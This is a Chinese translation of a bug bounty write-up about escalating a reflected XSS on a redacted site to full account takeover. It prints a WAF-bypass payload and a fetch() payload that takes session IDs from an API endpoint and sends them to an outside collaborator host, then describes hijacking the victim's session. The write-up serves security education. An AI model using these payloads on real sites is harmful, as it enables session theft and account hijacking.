 # 武器化反映了 XSS 对账户的接管

> 原文：<https://infosecwriteups.com/weaponizing-reflected-xss-to-account-takeover-ae8aeea7aca3?source=collection_archive---------0----------------------->

各位猎人，这是我第一次为这个社区写文章，我将解释我是如何发现一个反映的跨站点脚本错误，并进一步升级它以实现网站上任何用户的帐户接管。

我测试的目标是一个只有一个主域的私有程序，所以我在这篇博客中称它为 www.redacted.com，让我们开始吧。

**发现 XSS**

**参数发现**

在侦察阶段，我启动了 burpsuite proxy，将 www.redacted.com 加入了搜索范围，并开始浏览网站以获取流量。为了找到 XSS，我通常使用一个名为[“Reflected Parameters”](https://portswigger.net/bappstore/8e8f6bb313db46ba9e0a7539d3726651)的 Burp Suite PRO 扩展，它监视由代理生成的范围内请求流量，并寻找响应中反映的请求参数值。

![](img/8bf7764a26e82c69679b25419384d848.png)

反射参数扩展

因此，在捕获流量时，我遇到了一个名为`blogPostId`的参数，其值反映在 JS 上下文中。

![](img/5b18f246fbe3e65744b76888924d543b.png)

反思发生在 JS 上下文中

我决定进一步测试这个参数，使用一个包含一组特殊字符的小字符串，类似于`test123'"><` ,结果发现没有适当的输入净化。

首先，我试图关闭现有的脚本标签，但失败了，因为脚本标签被封锁，由于 WAF 正在执行。因此，下一个有效负载被用来调用现有脚本标签中的 alert 函数，但是 WAF 阻塞了这个请求。

![](img/3889bab9c60018366d900058d2e41a92.png)

模糊了一会儿后，我使用 iife 函数绕过了限制，弹出了一个警告框，显示了以下有效载荷:

> `*https://www.redacted.com/preview/001981ba?blogPostId=test123";(alert)("xss")//*`

![](img/5ba60708bd88b7ecbd5f22cfafdf513c.png)

**升级为 ATO**

增加 XSS 影响的最有用的方法是窃取受害者的会话 id，这将导致整个帐户被接管。因此，我注意到了 Burp 的历史日志中的请求，并发现一个 API 请求在 JSON 格式的响应中泄露了用户的会话 id。

![](img/4603256463b27a2313bd1ba7f766f599.png)

API 端点泄漏 sessionID

端点泄漏会话 ID:
*https://www.redacted.com/api/uis/accounts/current/sso*

**构建有效载荷**

我使用了以下有效载荷来实施攻击:

> `*";fetch('https://www.redacted.com/api/uis/accounts/current/sso').then(a=> a.text()).then(a=> fetch('https://random.burpcollaborator.net?x='+a))//*`

**解释:**这里我在有效载荷中使用 javascript 的 fetch()方法，指示 web 浏览器向 URL 发送请求。第一个 fetch()向这个 api 端点*https://www.redacted.com/api/uis/accounts/current/sso*(泄漏的会话 id)发送一个 GET 请求，我们可以用它来劫持帐户。`**(a=> a.text())**` 将数据返回到`**a**` 变量**中。**之后，使用第二个 fetch()函数发送另一个 GET 请求，将窃取的数据发送到攻击者控制的服务器中。为此，我简单地使用了打嗝合作者。

页（page 的缩写）感谢萨阿德·艾哈迈德 帮我构建这个有效载荷。

**最终网址:**

> `*https://www.redacted.com/preview/001981ba?blogPostId=327156%22;fetch(%27https://www.redacted.com/api/uis/accounts/current/sso%27).then(a=%3E%20a.text()).then(a=%3E%20fetch(%27https://random.burpcollaborator.net?x=%27%2ba))//*`

现在，我所要做的就是将这个链接发送给网站的任何经过身份验证的用户，一旦他们打开它，他们的会话 ID 就会被发送到攻击者的控制服务器(在我的例子中是 Burp collaborator)。

![](img/1925e887cb93ebd35c78b160cd2890fa.png)

检索到 SessionID

在检索到会话 ID 后，我首先以攻击者的身份登录，然后通过使用 Firefox 的 inspect 元素用受害者的 ID 替换了我的会话 ID，并刷新了让我以受害者身份登录的页面，从而成功接管了会话。

![](img/fdf66b4fab51df3947c31db895252e8f.png)

**在**之前:以攻击者身份登录

![](img/c29ff490a658730395469667df6cb33a.png)

之后的**:以受害者身份登录**

有一次我在受害者的账户里，我干脆把邮箱地址换成了我的，完全接管了这个账户。

![](img/35e2e179fa3aac9c985271629932baac.png)

**最终备注:**

这篇文章展示了 XSS 漏洞的严重性，以及如何提高报告的影响力。此外，如果你有任何疑问，请随时在推特上联系我，祝你黑客愉快！